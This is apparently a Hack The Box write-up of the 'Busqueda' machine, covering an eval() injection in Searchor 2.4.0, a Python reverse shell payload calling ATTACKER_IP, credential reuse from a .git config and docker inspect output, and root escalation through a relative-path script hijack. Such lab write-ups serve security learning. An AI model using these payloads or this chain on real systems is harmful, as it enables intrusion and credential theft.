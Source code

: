 ![image](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/c7fff3d6-767b-4211-97f0-ef11782fc766)


# Enumeration
SSH scan:
![image](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/f9df8937-61df-4806-91ea-c051be1ccec3)
Looks to be a linux box. 
Open ports:
- 22 - SSH - Not likely vulnerable, but could be useful if I find credentials
- 80 - HTTP - Website available. This is liekly the best place to start.

The website redirects to `searcher.htb` as a domain so I need to add this to the hosts file before I can get farther. 

The website has a tool that allows me to search typed queries to a designated search engine of my choice. The website states that it is powered by flask and "Searchor 2.4.0" which looks useful. 

Playing with the tool a bit, it obviously doesn't go out to the web, but it does spit out information such as this:
![image](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/33a17556-a788-4e35-9f70-4fe43c73d740)

# Foothold
Researching into the application being used here, I found that there is a vulnerability in the app. When you submit a query, it gets passed through the `eval()` parameter. Since the parameter isn't set up to sanatize inputs, I was able to get system information back by using the follwoing query as a proof of concept:
```
', exec("import subprocess;subprocess.run(['ping','-c','2', 'MY_IP']);"))#
```
This code should ping my workstation:
![image](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/ecb4d598-2f3f-44d3-83c4-bb08a86a4044)
Looks like command execution! Time for a shell. 

By running this command, I should get a reverse shell back on my machine:
```
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```
Results:
![image](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/9a383319-ecf4-4052-b2be-bc2f4532c7a5)
It gives me a shell as the `svc` user. Let's start looking around for interesting data...

Turns out, svc is an actual user on the box with a directory and not just a service account such as I expected (e.g. www-data). Within this directory is the user flag
```
svc@busqueda:~$ cd /home/svc
cd /home/svc
svc@busqueda:~$ ls
ls
user.txt
svc@busqueda:~$
```
That's the user flag! 
While digging around on this user, I was also able to find an interesting file at `/var/www/app/`. there is a hidden folder called `.git` which is interesting. Inside the directory is a config file that contains useful data:
```
svc@busqueda:/var/www/app/.git$ cat config
cat config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
svc@busqueda:/var/www/app/.git$ 
```
Credentials? There is no 'cody' user on the box... Maybe it's for the svc user? Trying to SSH into that user works!
We have credentials!
```
svc : jh1usoih2bkjaspwe92
```

# Escalation
Doing my usual enumeration steps here, I run `sudo -l` to see if we have any special permissions as sudo and we do!
```
svc@busqueda:~$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
svc@busqueda:~$
```
It looks like svc has permission to run this specific python script as roon. Checking the file reveals I don't have read permission which sucks... 
On the bright side, that wild card character means that I can run my own input into the script. 

After much bashing of my head against the wall, I realized that I found part of the answer I needed earlier when I found the user password. It mentions a subdomain: `gitea.searcher.htb`
Adding that to the hosts file on my machine and browsing to the site givees me a login. Trying the login I found in the config works as written!
```
cody : jh1usoih2bkjaspwe92
```
Looking through the site further doesn't reveal too much of interest. There are a few notes between cody and the admin, but I can't use them now. I did find a few scripts and one of them looked interesting: `docker-inspect.sh`. I'm guessing functions similarly to docker inspect which is a docker command used to dump a config file contents. I think this is worth trying. I will need to know the ID of the docker containter running. Thankfully there is a script already there that should do the trick: `docker-ps.sh`
Results:
```
960873171e2e - gitea
F84a6b33fb5a - mysql
```
With this info, I should be able to run the docker-inspect script for gitea and ask it to read the json config. 
Syntax used:
```
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' 960873171e2e | grep PASS
{"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"","Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2","maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}}
```
In that mess, I see there are credentials for the database:
```
"GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh"
```
Trying these credentials in the second domain site doesn't work as is, but the password does work for the admin user!
```
Administrator : yuiu1hoiu4i5ho1uh
```
Now we might be able to actually read the scripts in detail!

![image](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/a836a5cb-374a-47b1-931c-ff55f2e737f6)

Interesting... The code for `system-checkup.py` is running `full-check.py`:

![image](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/744fd012-c528-4dd1-9e06-9303c0636770)

Even better, it's using the relative path rather than an absolute, which is a bad idea if you are an admin, but great for a hacker like me!
To prove this point, I created  quick proof of concept. In the /var/tmp/ directory, I created a simple hello world script and ran it from that same directory. Since it looks at the relative path, it will run from the /var/tmp directory:

![image](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/d9ef697d-3e68-48a2-9975-a47d48163910)

Cool! Time for root!
I created a simple bash script to send a new reverse shell back to my computer. Results: 
![image](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/8b4cba74-fa0f-4a1e-855a-18257ec5dc4a)

Busqueda has been PWNED!
